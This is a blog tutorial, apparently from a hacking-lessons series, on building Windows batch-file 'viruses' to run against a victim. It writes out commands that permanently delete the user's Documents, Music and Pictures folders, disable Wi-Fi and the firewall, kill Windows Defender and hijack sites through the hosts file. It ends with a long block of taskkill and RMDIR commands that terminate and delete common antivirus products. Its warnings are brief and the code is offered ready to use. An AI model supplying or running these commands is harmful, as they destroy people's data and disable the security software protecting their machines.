

By now you should have a pretty good grip on [working with batch files](https://blog.leewardslope.com/frequently-asked-questions-about-batch-files). The time has come for you to fly out of the nest. Presented below are a few ideas for things that you can make your viruses do.

These commands should work on most Windows 10 systems with the default configuration. However, you may need to tweak some of them before they work for you. For example, to kill your victim’s anti-virus, you’ll need to know what anti-virus they have in the first place, only then can you stop its process and delete it.

**Warning:** Executing some of these commands WILL result in permanent loss of data. If you want to try these out, do so [in a virtual machine](https://blog.leewardslope.com/setting-up-a-virtual-machine-to-practice-hacking).

## Delete important stuff

Damaging personal data is a purely destructive attack motive. The attacker gains nothing but the victim loses something. For better or worse, this is something that batch files really shine at. Batch files can quietly delete vast quantities of data without the victim ever realizing what’s happening until it’s too late. And using the `del` command means the data is not going to the recycle bin, it’s permanently deleted.

What’s even scarier is that most directories, including the examples below, **don’t require admin privileges** to access, by default. However, if you are able to run a batch file as an administrator then that opens up the entire system to attack (such as deleting anti-viruses to allow other malware to roam freely).

* **Delete Documents**

  ```powershell
  del /f /q "%userprofile%\Documents\*.*"
  ```
* **Delete Music**

  ```powershell
  del /f /q "%userprofile%\Music\*.*"
  ```
* **Delete Pictures**

  ```powershell
  del /f /q "%userprofile%\Pictures\*.*"
  ```

## [](https://xeushack.com/how-to-make-your-own-viruses#disable-important-stuff)Disable Important stuff

The fact that windows provide utilities and services that can be accessed through the command line opens up yet another attack vector. Changing important configurations such as registry entries can render a computer unusable.

* **Disable Wi-Fi** - Let’s see how we can go about this. First, we find out the names of all the network interfaces:

  ```powershell
  netsh interface show interface
  ```

  This outputs:

  ```powershell
  Admin State    State          Type             Interface Name
  -------------------------------------------------------------------------
  Enabled        Disconnected   Dedicated        Ethernet
  Enabled        Connected      Dedicated        VirtualBox Host-Only Network
  Enabled        Connected      Dedicated        Ethernet 2
  Enabled        Connected      Dedicated        Wi-Fi
  ```

  For my computer, the wireless interface is simply named `Wi-Fi` (it may be different for you). And now we can just disable it:

  ```powershell
  netsh interface set interface "Wi-Fi" Disable
  ```

  And the Wi-Fi stops working and also the Wi-Fi icon disappears from the taskbar.

  It can be re-enabled by using this command: (*P.S: Disabling/Enabling interfaces requires admin privileges.*)

  ```powershell
  netsh interface set interface "Wi-Fi" Enable
  ```

  Or through the control panel:

  
* **Disable the firewall**

  ```powershell
  net stop "MpsSvc"
  ```
* **Stop Windows Defender**

  ```powershell
  taskkill /f /t /im "MSASCuiL.exe"
  taskkill /f /t /im "MSASCui.exe"
  ```

  ## Block Websites

  We can block any website we want by editing the `hosts` file:

  ```powershell
  cd "C:\Windows\System32\Drivers\etc"
  echo 127.0.0.1 google.com >> "hosts"
  echo 127.0.0.1 www.google.com >> "hosts"
  ```

  `127.0.0.1` is the localhost. The above command tells the computer that it’s going to find `google.com` on your own device. So the browser doesn’t even bother trying to find out the real IP address of `google.com`, it just uses localhost, where of course it doesn’t get a reply. You’ll usually want to block both the top level domain as well as the `www.` subdomain.

  This is kind of a shitty thing to do to someone, don’t you think? Maybe you should be a white-hat and make a “virus” that [blocks intrusive ads](https://github.com/StevenBlack/hosts) and help protect your victim’s privacy.

  ## Delete all anti-viruses

  The following snippet tries to disable and delete all common anti-viruses. It’s really just a hail mary and definitely not the most appropriate way to go about this. You’ll need admin rights to run this. Below you’ll see two types of commands:

  * `taskkill`: These commands attempt to kill the running anti-virus processes. A bunch of common process names are included below. Note that we’re using the wildcard `*` in the names. This means, for example, `av*` will include all the names that begin with ‘av’. So it is possible that a whole lot of innocent process also get caught in the crossfire.
  * `RMDIR`: These commands simply delete the default installation folders of the anti-viruses.

  ```powershell
  taskkill /F /IM av* >NUL
  taskkill /F /IM fire* >NUL
  taskkill /F /IM anti* >NUL
  taskkill /F /IM spy* >NUL
  taskkill /F /IM bullguard* >NUL
  taskkill /F /IM PersFw* >NUL
  taskkill /F /IM KAV* >NUL
  taskkill /F /IM ZONEALARM* >NUL
  taskkill /F /IM SAFEWEB* >NUL
  taskkill /F /IM OUTPOST* >NUL
  taskkill /F /IM nv* >NUL
  taskkill /F /IM nav* >NUL
  taskkill /F /IM F-* >NUL
  taskkill /F /IM ESAFE* >NUL
  taskkill /F /IM cle* >NUL
  taskkill /F /IM BLACKICE* >NUL
  taskkill /F /IM def* >NUL
  taskkill /F /IM kav* >NUL
  taskkill /F /IM kav* >NUL
  taskkill /F /IM avg* >NUL
  taskkill /F /IM ash* >NUL
  taskkill /F /IM aswupdsv* >NUL
  taskkill /F /IM ewid* >NUL
  taskkill /F /IM guar* >NUL
  taskkill /F /IM gcasDt* >NUL
  taskkill /F /IM msmp* >NUL
  taskkill /F /IM mcafe* >NUL
  taskkill /F /IM mghtml* >NUL
  taskkill /F /IM msiexec* >NUL
  taskkill /F /IM outpost* >NUL
  taskkill /F /IM isafe* >NUL
  taskkill /F /IM zap* >NUL
  taskkill /F /IM zauinst* >NUL
  taskkill /F /IM upd* >NUL
  taskkill /F /IM zlclien* >NUL
  taskkill /F /IM minilog* >NUL
  taskkill /F /IM norton* >NUL
  taskkill /F /IM ccc* >NUL
  taskkill /F /IM npfmn* >NUL
  taskkill /F /IM loge* >NUL
  taskkill /F /IM nisum* >NUL
  taskkill /F /IM issvc* >NUL
  taskkill /F /IM tmp* >NUL
  taskkill /F /IM tmn* >NUL
  taskkill /F /IM pcc* >NUL
  taskkill /F /IM cpd* >NUL
  taskkill /F /IM pop* >NUL
  taskkill /F /IM pav* >NUL
  taskkill /F /IM padmin* >NUL
  taskkill /F /IM panda* >NUL
  taskkill /F /IM avsch* >NUL
  taskkill /F /IM sche* >NUL
  taskkill /F /IM syman* >NUL
  taskkill /F /IM virus* >NUL
  taskkill /F /IM realm* >NUL
  taskkill /F /IM sweep* >NUL
  taskkill /F /IM scan* >NUL
  taskkill /F /IM ad-* >NUL
  taskkill /F /IM safe* >NUL
  taskkill /F /IM avas* >NUL
  taskkill /F /IM norm* >NUL
  taskkill /F /IM offg* >NUL
  RMDIR /Q "C:\Program Files\alwils~1" /S >NUL
  RMDIR /Q "C:\Program Files\Lavasoft\Ad-awa~1" /S >NUL
  RMDIR /Q "C:\Program Files\kasper~1" /S >NUL
  RMDIR /Q "C:\Program Files\trojan~1" /S >NUL
  RMDIR /Q "C:\Program Files\f-prot95" /S >NUL
  RMDIR /Q "C:\Program Files\tbav" /S >NUL
  RMDIR /Q "C:\Program Files\avpersonal" /S >NUL
  RMDIR /Q "C:\Program Files\Norton~1" /S >NUL
  RMDIR /Q "C:\Program Files\Mcafee" /S >NUL
  RMDIR /Q "C:\Program Files\Norton~1\Norton~1\Norton~3" /S >NUL
  RMDIR /Q "C:\Program Files\Norton~1\Norton~1\speedd~1" /S >NUL
  RMDIR /Q "C:\Program Files\Norton~1\Norton~1" /S >NUL
  RMDIR /Q "C:\Program Files\Norton~1" /S >NUL
  RMDIR /Q "C:\Program Files\avgamsr" /S >NUL
  RMDIR /Q "C:\Program Files\avgamsvr" /S >NUL
  RMDIR /Q "C:\Program Files\avgemc" /S >NUL
  RMDIR /Q "C:\Program Files\avgcc" /S >NUL
  RMDIR /Q "C:\Program Files\avgupsvc" /S >NUL
  RMDIR /Q "C:\Program Files\grisoft" /S >NUL
  RMDIR /Q "C:\Program Files\nood32krn" /S >NUL
  RMDIR /Q "C:\Program Files\nood32" /S >NUL
  RMDIR /Q "C:\Program Files\nod32" /S >NUL
  RMDIR /Q "C:\Program Files\nood32" /S >NUL
  RMDIR /Q "C:\Program Files\kav" /S >NUL
  RMDIR /Q "C:\Program Files\kavmm" /S >NUL
  RMDIR /Q "C:\Program Files\kaspersky" /S >NUL
  RMDIR /Q "C:\Program Files\ewidoctrl" /S >NUL
  RMDIR /Q "C:\Program Files\guard" /S >NUL
  RMDIR /Q "C:\Program Files\ewido" /S >NUL
  RMDIR /Q "C:\Program Files\pavprsrv" /S >NUL
  RMDIR /Q "C:\Program Files\pavprot" /S >NUL
  RMDIR /Q "C:\Program Files\avengine" /S >NUL
  RMDIR /Q "C:\Program Files\apvxdwin" /S >NUL
  RMDIR /Q "C:\Program Files\webproxy" /S >NUL
  RMDIR /Q "C:\Program Files\panda software" /S >NUL
  ```

  - - -

  Our journey has only just begun so we must keep moving. It should go without saying that you must use this knowledge ethically. Today’s systems are largely protected from little batch file viruses, but soon we’re going to learn about hacking techniques that can be used to really hurt people and businesses, financially or otherwise. And with that, we bid farewell to batch file viruses.

  Next up, we’re going to have a little fun and learn about something *[quite explosive](https://blog.leewardslope.com.com/zip-bomb)*.